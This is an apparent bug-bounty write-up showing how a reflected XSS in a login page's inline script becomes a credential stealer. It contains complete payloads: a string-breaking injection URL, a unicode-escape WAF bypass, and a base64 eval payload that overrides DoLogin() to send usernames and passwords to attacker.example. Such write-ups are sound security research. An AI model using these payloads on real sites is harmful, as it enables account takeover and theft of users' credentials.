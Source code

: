 ```yaml
---
layout: post
title: "From \"Low-Impact\" RXSS to Credential Stealer: A JS-in-JS Walkthrough"
date: 2025-08-25T00:14:54+00:00
img_dir: "/assets/2025-08-25-rxss-credential-stealer/images"
description: "From the classic “quote break” in a <script> to a login takeover: step by step, I show how a “low-impact” RXSS becomes a real credential stealer."
categories: [bugbounty]
---
```

![Cover]({{ page.img_dir | relative_url }}/cover.png) 

# From "Low-Impact" RXSS to Credential Stealer: A JS-in-JS Walkthrough

Ethical note: the following is for educational purposes and documents a real case in an authorized context (bug bounty). Do not perform attacks on systems without permission.

During my hunt, I found an RXSS that was apparently “harmless” and had little impact because all cookies were set with the “HttpOnly” flag, so it was not possible to steal the session cookie. If I had sent the report as it was, it would have been treated as Low/Medium, so I decided to find something to present to the program company that would make it a High.
Since the vulnerability was on the login page of a web app, I decided to turn the XSS into a kind of “phishing” attack.

## Context

The login page renders several server-side variables into a `<script>` block. One of them—coming from a query parameter (`l`)—is echoed inside a JavaScript string:

```html
<script>
  /* ... */
  var AspInterfaceLanguage = "test"; // ← user-controlled
  /* ... */
</script>
```

This is the classic **JS-in-JS sink**: if you can close the string and re-enter code context, you execute arbitrary JavaScript without touching HTML at all.

### Finding the break point

The goal is to use `l` to **close** the string, **inject** code, and then **repair** the syntax so the rest of the page parses cleanly.

A minimal mental model of the injected sequence:

```
"            // end the original string
;            // finish the statement defensively
<INJECTION>  // run my JavaScript
; a = "      // resume the string the page expects
```
So the URL looks something like this: 
`/Login.asp?IdSite=0&Error=&l=test";<INJECTION>;a="`

Which is reflected in this way : 

```html
<script>
    /* ... */
    var AspInterfaceLanguage = "test"<INJCETION>;a="";
    /* ... */
</script>
```

Before proceeding with the exploit there is a clarification to be made the webapp has a WAF system in front that recognizes possible malicious javascript patterns (alert/eval etc.) and blocks requests
So to bypass this control, unicode was used in this way :

```javascript
\u0061\u006C\u0065\u0072\u0074(1) // alert(1)
```
I don't know if it's a WAF or a backend check, but it's really weak and stupid.

So the payload to trigger an alert is:
`/Login.asp?IdSite=0&Error=&l=test";\u0061\u006C\u0065\u0072\u0074(1);a="`

## Convert XSS into "Credential Stealer" to increase impact

Analyzing the login page, I noticed that the login form was managed by a JS function `DoLogin()` declared in another `<script>` tag further down. 

```html

<script>

/* ..... */

function DoLogin() {

    /* ...... */
    
    var user = Trim(FormInput.InputUtente.value)
    var password = Trim(FormInput.InputPassword.value) 
        
    /* ...... */

}

/* ..... */

</script>
```

So I thought that if I replaced the content of the `DoLogin()` function with malicious code, I would have control over the login process. For Example : 

```javascript

const DoLogin = () => {
  const pwd  = Trim(FormInput.InputPassword.value);
  const user = Trim(FormInput.InputUtente.value);

  // PoC: send to a controlled listener
  fetch("https://attacker.example/?" +
        "u=" + encodeURIComponent(user) +
        "&p=" + encodeURIComponent(pwd));
};

```
I use `const` to prevent the function from being redefined later with the legitimate one in the `<script>` tag below.

However, this payload converted to Unicode became extremely long, so I decided to use eval+base64 to make it more deliverable.

```javascript

\u0065\u0076\u0061\u006C(\u0061\u0074\u006F\u0062('<BASE_64_PAYLOAD>'))  // eval(atob('<BASE_64_PAYLOAD>'))

```

At this point, I encountered a problem and discovered that if you use `const` or `let` inside `eval()`, the declared variables/functions are not accessible globally but remain accessible only inside `eval()`.  [eval() reference](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

So, to avoid this problem, I created a new script element that contains the payload. 

```javascript
var s=document.createElement('script');
s.textContent="const DoLogin = () => {const pwd = Trim(FormInput.InputPassword.value); const user = Trim(FormInput.InputUtente.value); fetch('https://attacker.example/?u='+encodeURIComponent(user)+'&p='+encodeURIComponent(pwd));}";
document.head.appendChild(s);
```

Now let's encode all of the above code in base64 and insert it into the final payload.

```javascript

\u0065\u0076\u0061\u006C(\u0061\u0074\u006F\u0062('dmFyIHM9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7DQpzLnRleHRDb250ZW50PSJjb25zdCBEb0xvZ2luID0gKCkgPT4ge2NvbnN0IHB3ZCA9IFRyaW0oRm9ybUlucHV0LklucHV0UGFzc3dvcmQudmFsdWUpOyBjb25zdCB1c2VyID0gVHJpbShGb3JtSW5wdXQuSW5wdXRVdGVudGUudmFsdWUpOyBmZXRjaCgnaHR0cHM6Ly9hdHRhY2tlci5leGFtcGxlLz91PScrZW5jb2RlVVJJQ29tcG9uZW50KHVzZXIpKycmcD0nK2VuY29kZVVSSUNvbXBvbmVudChwd2QpKTt9IjsNCmRvY3VtZW50LmhlYWQuYXBwZW5kQ2hpbGQocyk7'))

```

### Execution order: the tiny detail that changes everything

The **vulnerable** `<script>` (the one with var `AspInterfaceLanguage = "..."`) appears **before** the script that defines the legitimate DoLogin(). That means:

1. The payload runs **immediately** as the parser processes the first `<script>`.

2. The injector adds a new `<script>` that declares `const DoLogin` **first**.

3. When the later script tries to declare `function DoLogin(){...}`, the name is **already bound**, leaving my hook in control.


## Conclusion 

With this little trick, I turned a simple, low-impact XSS into a “Credential Stealer.” The triager evaluated and accepted it as High, and I received a bounty of €1,200.